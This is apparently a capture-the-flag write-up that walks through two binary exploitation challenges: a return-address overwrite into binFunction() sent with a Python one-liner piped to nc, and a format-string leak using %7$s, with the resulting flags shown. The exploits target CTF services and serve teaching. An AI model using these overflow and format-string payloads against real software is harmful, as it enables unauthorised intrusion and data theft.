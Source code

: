 We can overwrite the return address of the `main()` function so that when it concludes operations, it will return to an arbitrarily defined memory address as specified by the attacker via the overflow. Where should `main()` return? Well, there's another function called `binFunction()` that's an obvious candidate. We can get the address of `binFunction()` through `objdump`.

```
[skat@iris:~] $ objdump -d -M intel coffer-overflow-2 | grep "binFunction"
00000000004006e6 <binFunction>:
```

The address of `binFunction()` is `0x4006e6`, or as an 8-byte little-endian hexadecimal address encoded in Python, `\xe6\x06\x40\x00\x00\x00\x00\x00`. Our exploit will consist of 16 bytes to fill up the `name` buffer, 8 bytes to slide to the location of the return address of the `main()` function, and then the address of the `binFunction()` function.

```
[skat@iris:~] $ (python2 -c "print '\x41'*24 + '\xe6\x06\x40\x00\x00\x00\x00'"; cat) | nc 2020.redpwnc.tf 31908
Welcome to coffer overflow, where our coffers are overfilling with bytes ;)
What do you want to fill your coffer with?
ls
Makefile
bin
coffer-overflow-2
coffer-overflow-2.c
dev
flag.txt
lib
lib32
lib64
cat flag.txt
flag{ret_to_b1n_m0re_l1k3_r3t_t0_w1n}
```

Another flag.

```
flag{ret_to_b1n_m0re_l1k3_r3t_t0_w1n}
```

## secret-flag

Files: `secret-flag`

This one is a really cool binary exploitation attack that doesn't necessarily deal with buffer overflows, but rather, a vulnerability in format strings.

If you have a look at the functions that this program uses (`objdump -d`), you can see that it uses `printf()` to echo back to your whatever input you entered. You can leak information about the program, including the flag it loads into the stack, by using `%n$s` where `n` is a number. What this essentially means is "print as a string the nth number from the stack." After some testing, I found the flag being the 7th item in the stack.

```
[skat@iris:~] $ nc 2020.redpwnc.tf 31826
I have a secret flag, which you'll never get!
What is your name, young adventurer?
%7$s
Hello there: flag{n0t_s0_s3cr3t_f1ag_n0w}
```
